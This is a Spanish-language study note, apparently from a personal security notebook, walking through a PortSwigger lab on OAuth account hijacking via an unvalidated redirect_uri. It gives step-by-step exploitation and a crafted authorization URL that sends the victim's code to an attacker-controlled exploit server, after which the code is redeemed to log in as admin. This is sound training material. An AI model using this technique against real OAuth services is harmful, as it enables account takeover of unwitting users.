

---
aliases:
  - OAuth 003 - Account hijacking redirect_uri
  - robar code por redirect_uri
tags:
  - vuln/oauth
  - example
  - portswigger
---

# 003 — Account hijacking por `redirect_uri` (robo del `code`)

> Lab: [OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri) · Practitioner · Teoría → [[vulnerabilities/026-oauth/oauth#B.1 — Fuga de code / access_token (fallos de redirect_uri)|entry point B.1]] · [[vulnerabilities/026-oauth/labs/README|labs]]

## Qué muestra
El OAuth service **no valida el `redirect_uri`** → el atacante arma un `/authorize` que devuelve el `code` a **su** exploit server. Le pasa el link a la víctima (ya logueada en el proveedor); el `code` **de la sesión de ella** cae en el access log del atacante, que lo **canjea en el callback real** y entra como la víctima.

## Diagrama



## Por qué funciona
- El `redirect_uri` le dice al server **a dónde** mandar el `code`. Sin validación (o con validación débil), lo apuntás a tu dominio.
- El `code` se genera **para la sesión de la víctima** en el proveedor → aunque lo canjees vos, representa **su** identidad.
- El canje (`/token`) lo hace el **cliente**, que confía en cualquier `code` que llegue a su `/oauth-callback`.

## Cómo explotarlo (paso a paso)
1. Capturá una request de login normal y quedate con `client_id` y la forma del `/auth`.
2. Armá el link cambiando el `redirect_uri` por tu exploit server:
   ```
   https://OAUTH-ID.oauth-server.net/auth?client_id=CLIENT_ID&redirect_uri=https://EXPLOIT.exploit-server.net&response_type=code&scope=openid%20profile%20email
   ```
3. Serví ese link desde el exploit server y **Deliver to victim**.
4. En tu **access log** aparece `GET /?code=ADMIN_CODE`.
5. Pegá el code en el callback real: `GET /oauth-callback?code=ADMIN_CODE` → sesión de admin → `/admin` → borrar a `carlos`.

## Verificación
- El `code` aparece en el access log; al usarlo en `/oauth-callback` quedás logueado como admin.

## Detalles que se pasan por alto
- El bug es del **OAuth service** (validación de `redirect_uri`), a diferencia del 002 (cliente).
- El `code` es de **un solo uso** y expira rápido → canjealo cuanto antes.
- Si el `redirect_uri` **sí** está whitelisteado por dominio, no muere el vector: encadenás un **open redirect** del cliente → ese es el 004.
